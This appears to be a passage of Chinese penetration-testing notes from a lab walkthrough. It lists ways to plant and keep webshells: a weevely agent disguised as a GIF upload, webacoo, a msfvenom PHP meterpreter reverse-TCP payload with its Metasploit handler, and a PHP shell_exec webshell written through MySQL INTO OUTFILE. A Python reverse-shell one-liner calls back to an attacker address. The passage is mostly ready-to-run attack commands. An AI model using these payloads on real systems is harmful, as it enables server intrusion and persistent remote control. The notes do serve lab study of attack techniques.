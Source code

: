 
weevely generate passdayu dayu.php   ---生成dayu.php文件密码为passdayu
generate  ---生成新代理
mv dayu.php dayu.gif    ---然后头部加入GIF98a并改名文件为gif

然后上传文件，看源码ID：ff075cd8aeef
weevely http://10.211.55.36/imfadministrator/uploads/ff075cd8aeef.gif passdayu
成功获得shell，该shell很稳定！

------------------
方法3：webacoo   ---测试无法绕过waf！！！！！


webacoo -g -o dayu1.php
-g 生成后门代码（需要-o）
-o OUTPUT 生成的后门输出文件名

和方法2一样，加入GIF98a然后改名dayu1.gif，查看ID：

webacoo -t -u http://x.x/.login.php

-t 建立远程“终端”连接（需要-u）
-u URL 后门 URL 
------------------
方法4：  测试无法绕过waf！！！！！
Msf-php-维持shell

//生成webshell
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.211.55.19 LPORT=4455 -f raw > ms.php

//监听
msfconsole
use exploit/multi/handler
set payload php/meterpreter_reverse_tcp
set LHOST 10.211.55.19
set LPORT 4455
run

------------------
方法5：mysql INTO OUT文件上传     INTO OUT（写）

mysql -uroot -pplbkac -h 10.211.55.37

select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";

nc -vlp 10.211.55.19
https://10.211.55.37:12380/blogblog/wp-content/uploads/shell.php?cmd=ls
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.211.55.19",6677));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'



------------------------------------------------------

python -c 'import pty; pty.spawn("/bin/bash")'

11、内网信息枚举
